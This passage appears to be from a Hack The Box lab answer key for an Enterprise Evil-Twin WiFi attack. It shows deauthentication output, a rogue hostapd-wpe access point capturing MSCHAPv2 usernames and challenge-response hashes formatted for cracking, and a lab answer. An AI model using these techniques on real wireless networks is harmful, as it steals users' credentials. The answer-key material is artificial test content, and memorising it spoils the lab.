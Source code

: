 ```
12:30:19  Sending 64 directed DeAuth (code 7). STMAC: [AA:30:C2:FB:98:8B] [ 0| 0 ACKs]
12:30:19  Sending 64 directed DeAuth (code 7). STMAC: [AA:30:C2:FB:98:8B] [ 0| 0 ACKs]
```

Students will notice the authentication attempts in the previous window and the username, alongside the password of the user attempting to connect:

```
root@HTB-Corp:/home/wifi# sudo hostapd-wpe -c -k hostapd-wpe.conf

rfkill: Cannot open RFKILL control device
random: Only 16/20 bytes of strong random data available
random: Not enough entropy pool available for secure operations
WPA: Not enough entropy in random pool for secure operations - update keys later when the first station connects
wlan1: interface state UNINITIALIZED->ENABLED
wlan1: AP-ENABLED 

<SNIP>

mschapv2: Wed Jan  8 12:30:58 2025
	 username:	{hidden}
	 challenge:	56:35:e5:b0:c5:29:98:60
	 response:	f2:ba:2d:7a:26:86:3b:20:2e:f7:fa:88:03:ea:5e:21:6d:59:b6:35:53:77:69:2e
	 jtr NETNTLM:		{hidden}:$NETNTLM$5635e5b0c5299860$f2ba2d7a2<SNIP>216d59b6355377692e
	 hashcat NETNTLM:	
	 {hidden}::::f2ba2d7a26863b202ef7fa8803<SNIP>77692e:5635e5b0c5299860

<SNIP>
```

Answer: `HTB\Sentinal.Jr`

# Enterprise Evil-Twin Attack

## Question 2

### "Crack the obtained hash using hashcat. What is the password found for the captured hash?"

Students will reuse the previously established RDP session and the output in the `hostapd-wep` process to attain the hashes password of the user previously found. Note that an additional de-authentication may be needed.

```
root@HTB-Corp:/home/wifi# sudo hostapd-wpe -c -k hostapd-wpe.conf

rfkill: Cannot open RFKILL control device
random: Only 16/20 bytes of strong random data available
random: Not enough entropy pool available for secure operations
WPA: Not enough entropy in random pool for secure operations - update keys later when the first station connects
wlan1: interface state UNINITIALIZED->ENABLED
wlan1: AP-ENABLED 

<SNIP>

mschapv2: Wed Jan  8 12:30:58 2025
	 username:	{hidden}
	 challenge:	56:35:e5:b0:c5:29:98:60
	 response:	f2:ba:2d:7a:26:86:3b:20:2e:f7:fa:88:03:ea:5e:21:6d:59:b6:35:53:77:69:2e
	 jtr NETNTLM:		{hidden}:$NETNTLM$5635e5b0c5299860$f2ba2d7a2<SNIP>216d59b6355377692e
	 hashcat NETNTLM:	
	 {hidden}::::f2ba2d7a26863b202ef7fa8803<SNIP>77692e:5635e5b0c5299860
```